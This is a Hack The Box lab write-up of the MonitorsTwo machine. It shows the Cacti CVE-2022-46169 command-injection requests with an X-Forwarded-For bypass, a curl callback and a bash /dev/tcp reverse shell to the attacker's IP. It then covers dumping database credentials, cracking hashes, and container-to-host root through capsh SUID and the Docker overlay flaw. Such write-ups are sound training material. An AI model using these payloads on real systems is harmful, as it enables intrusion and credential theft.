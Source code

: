 # MonitorsTwo Writeup - by Thammanant Thamtaranon  

- MonitorsTwo is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I began with a full TCP port scan including service/version detection and OS fingerprinting:  `nmap -A -T4 -p- 10.10.11.211`  

![Nmap_Scan](Nmap_Scan.png)  

- The scan revealed two open ports:  
  - 22 (SSH)  
  - 80 (HTTP)  

## Scanning & Enumeration  
- Upon accessing the web service, I identified the application as Cacti version 1.2.22.

![Cacti](Cacti.png) 

## Exploitation  
- Researching this specific Cacti version led me to discover **CVE-2022-46169**, a critical unauthenticated command injection vulnerability affecting the `remote_agent.php` endpoint. This vulnerability occurs due to insufficient input sanitization in the `poller_id` parameter.

- Initial exploitation attempts failed due to IP-based restrictions:  
  `GET /remote_agent.php?action=polldata&poller_id=1;id&host_id=1&local_data_ids[]=1`  

![Request1](Request1.png)  

- Bypassing this restriction required adding a spoofed localhost header:  
  `X-Forwarded-For: 127.0.0.1`  

- After extensive parameter testing, I discovered valid parameters that would execute commands:  
  `host_id=1&local_data_ids[]=6`  

- Successful command execution was verified by triggering a callback to my attack machine:  
  `GET /remote_agent.php?action=polldata&poller_id=1;curl${IFS}10.10.16.11:8000&host_id=1&local_data_ids[]=6`  

![Request2](Request2.png)  
![Request3](Request3.png)  

- This led to establishing a reverse shell connection as the `www-data` user:  
  `bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'`  

![www-data](www-data.png)  

- While exploring the container environment, I discovered database credentials in the Cacti configuration file:  
  `cat /var/www/html/cacti/include/config.php`  

![Config](Config.png)  

- Using these credentials, I enumerated the MySQL database structure:  
  `mysql -u root -h db -proot -e "SHOW DATABASES;"`  
  `mysql -u root -h db -proot -e "USE cacti; SHOW TABLES;"`  

- The `user_auth` table contained password hashes for Cacti users:  
  `mysql -u root -h db -proot -e "USE cacti; SELECT * FROM user_auth;"`  

![Credentials](Credentials.png)  

- I successfully cracked user `marcus`'s hash using John the Ripper:  
  `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`  

![Cracked](Cracked.png)  

- The cracked credentials granted SSH access as the `marcus` user:  `ssh marcus@10.10.11.211`  

![Marcus](Marcus.png)

- I then captured the user flag.

## Privilege Escalation  
- Checking sudo privileges revealed that, unfortunately, user `marcus` was not permitted to execute any commands via sudo:  `sudo -l`  

- We found a mail for user `marcus`.

![Mail](Mail.png)

- The mail described three vulnerabilities, the most interesting being **CVE-2021-41091**.
- **CVE-2021-41091** is a Docker Engine (Moby) vulnerability that allows attackers inside a container to traverse directories and access/modify files on the host system due to insecure permissions in `/var/lib/docker`.

- We checked the Docker version and confirmed the vulnerability.

![Version](Version.png)

- The exploit indicates that obtaining root on the container allows root access on the host machine.
- We re-entered the container.
- We ran the command `find / -perm -4000 -type f 2>/dev/null` to check for any SUID files and found `capsh`.

![SUID](SUID.png)

- Searching GTFOBins for `capsh` revealed a method to gain root privileges.

![GTFOBins](GTFOBins.png)

- We gained root in the container.

![Container_Root](Container_Root.png)

- We then ran `chmod +s /bin/bash` inside the container.
- On the host machine, we identified the overlay mount points:  
  `findmnt | grep "/var/lib/docker/overlay2" | awk '{print $1}'`

![Overlay](Overlay.png)

- Since we were unsure which overlay contained our SUID bash, we executed `/bin/bash -p` on each.
- This gave us a root shell on the host machine.

![Root](Root.png)

- Finally, we captured the root flag.

